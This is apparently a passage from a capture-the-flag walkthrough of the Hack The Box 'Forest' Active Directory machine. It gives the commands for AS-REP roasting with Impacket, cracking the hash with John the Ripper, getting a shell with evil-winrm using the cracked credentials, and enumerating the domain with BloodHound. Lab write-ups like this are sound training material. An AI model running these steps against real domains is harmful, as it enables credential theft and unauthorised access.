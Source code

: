 Next we need to do text file with users we already found

<img width="154" height="181" alt="3" src="https://github.com/user-attachments/assets/24231dd5-a614-4613-b18e-1936f1f6fef4" />

### Checking for AS-REP vulnerable accounts — `GetNPUsers.py` (Impacket)

```bash
python3 GetNPUsers.py htb.local/ -usersfile users.txt -dc-ip 10.10.11.161 -request -format john
```
<img width="862" height="296" alt="4" src="https://github.com/user-attachments/assets/c6ce93e6-d213-41b4-aff1-0d3d2d9914b7" />

We found out the username 'svc-alfresco' has Kerberos Pre-authentication disabled, and also we recieve ticket, which contains the password of 'svc-alfresco'.We need to crack this ticket using John command.First,put hash in text file:

### Cracking hash using John-The-Ripper

```bash
john --wordlist=/usr/share/worldists/rockyou.txt hash.txt
```

<img width="842" height="187" alt="999" src="https://github.com/user-attachments/assets/cd81d0a3-9b59-4b9e-a63f-7d3b9487cc06" />

As we can see the password for svc-alfresco it's s3rvice

### Initial Foothold
As we can see we can use evil-winrm for svc-alfresco user

<img width="1275" height="209" alt="forest(3)" src="https://github.com/user-attachments/assets/75e07584-0dc6-4945-9444-15e417cb9054" />



Let's get access using evil-winrm

```bash
evil-winrm -i 10.10.11.161 -u svc-alfresco -p s3rvice
```

<img width="720" height="185" alt="image" src="https://github.com/user-attachments/assets/0abae4a7-7b41-4caa-8d68-77a4eaff8156" />


### AD Enumeration

To gather more information about domain users and groups and how they connect to each other, we will use BloodHound

```bash
bloodhound-python -d forest.local -u svc-alfresco -p s3rvice -ns 10.10.11.161 -c all
```

<img width="850" height="377" alt="7" src="https://github.com/user-attachments/assets/7a076228-522e-4d40-b8ec-7cd753069645" />

As we can see, we got JSON-file with more information about domain,domain users,groups,containers.


<img width="702" height="76" alt="8" src="https://github.com/user-attachments/assets/97d670af-6236-484d-a768-5aafd600cae0" />
